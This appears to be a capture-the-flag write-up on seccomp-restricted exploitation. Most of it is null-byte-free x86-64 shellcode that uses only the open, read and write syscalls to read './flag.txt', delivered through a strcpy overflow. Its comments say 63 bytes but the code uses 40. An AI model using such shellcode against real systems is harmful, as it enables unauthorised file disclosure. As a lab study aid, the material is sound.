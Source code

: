 ### Main Idea: Linux Kernel SECCOMP
- Limits system calls that can be made on a system
- https://www.kernel.org/doc/html/v4.16/userspace-api/seccomp_filter.html
- seccomp-tools: https://github.com/david942j/seccomp-tools
	- useful for analyzing seccomp on a system

### Code Analysis
- mprotect - sets the permissions for the process's memory pages
- prctl - "manipulates various aspects of the behavior of the calling thread or process"
- strcpy - this is how we will be supplying malicious input
	- strcpy stops on nullbytes
	- no nullbytes!!

shellcode! only with read, write, and open!
```
/*save addr of buffer into register not used much*/
mov r14, rax
xor rax, rax

/* open("./flag.txt", flags) */
mov r11, 0x1111111111117478
shl r11, 0x30
shr r11, 0x30
push r11
xor r11, r11
mov rax, 0x742e67616c662f2e
push rax
mov rdi, rsp
xor esi, esi
xor edx, edx
xor eax, eax
inc eax
inc eax
syscall

/*store flag.txt fd*/
mov r15, rax
xor rax, rax

/*read(fd, buffer, 63)*/
mov rdi, r15
mov rsi, r14
mov rdx, 0x1111111111111128
shl rdx, 0x38
shr rdx, 0x38
xor eax, eax
syscall

/*write(1, buffer, 63)*/
xor rdi, rdi
inc rdi
mov rsi, r14
mov rdx, 0x1111111111111128
shl rdx, 0x38
shr rdx, 0x38
xor eax, eax
inc eax
syscall
```